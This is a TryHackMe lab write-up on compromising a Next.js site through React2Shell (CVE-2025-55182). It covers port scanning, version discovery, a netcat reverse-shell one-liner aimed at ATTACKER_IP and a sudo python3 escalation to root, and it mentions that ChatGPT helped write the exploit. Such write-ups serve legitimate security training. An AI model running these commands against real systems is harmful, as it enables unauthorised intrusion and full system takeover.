




# Corp Website — TryHackMe Writeup

**Target:** Corp Website  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Category:** Web Enumeration, Next.js, React2Shell, Remote Code Execution, Privilege Escalation

---

## Recon

As usual, I started with Rustscan to scan for open ports.

```bash
rustscan -b 500 --scripts none -t 5000 -a TARGET_IP
```

I then used Nmap to enumerate the services running on the discovered ports.

```bash
nmap -sC -sV -T4 -p22,3000 TARGET_IP
```



The website was running on port 3000 and was using Next.js.

---

## Web Enumeration

After inspecting the HTML source, I found several components indicating that the website was using **Next.js + React**, such as:

```text
self.__next_f.push([1,"..."])

1:"$Sreact.fragment"
```

Since I already knew the stack being used, I ran Feroxbuster with the `.js` extension to perform web content enumeration and look for JavaScript files or endpoints that could provide additional information about the stack.

```bash
feroxbuster -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -d 3 -u http://TARGET_IP:3000/ -x js
```



From the Feroxbuster crawl, I found the following version information:

```text
r.version="19.3.0-canary-52684925-20251110"
window.next={version:"16.0.6"
```

This revealed the versions being used:

```text
React: 19.3.0-canary-52684925-20251110
Next.js: 16.0.6
```

After researching these versions, I found that the stack was potentially affected by **React2Shell (CVE-2025-55182)**.

After confirming that the versions matched the vulnerability, I asked ChatGPT to help create a PoC exploit and used it to test whether arbitrary command execution was possible.



The exploit worked, confirming that arbitrary command execution was possible on the target.

---

## Initial Foothold — React2Shell

After confirming that the exploit worked, I immediately attempted to obtain a reverse shell.

The target was using `sh` as its shell, so I used the following payload:

```bash
python exploit.py -t http://TARGET_IP:3000/ -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 9004 >/tmp/f"
```

After running the payload, I successfully obtained a shell on the target.

---

## Privilege Escalation — Sudo

After obtaining the shell, I checked the current sudo privileges:

```bash
sudo -l
```

The result showed that user `daniel` could run `/usr/bin/python3` as root.

Since Python could be executed with root privileges, I used the following payload to obtain a shell:

```bash
python3 -c 'import os; os.system("/bin/sh")'
```

The payload executed successfully and I obtained a root shell.


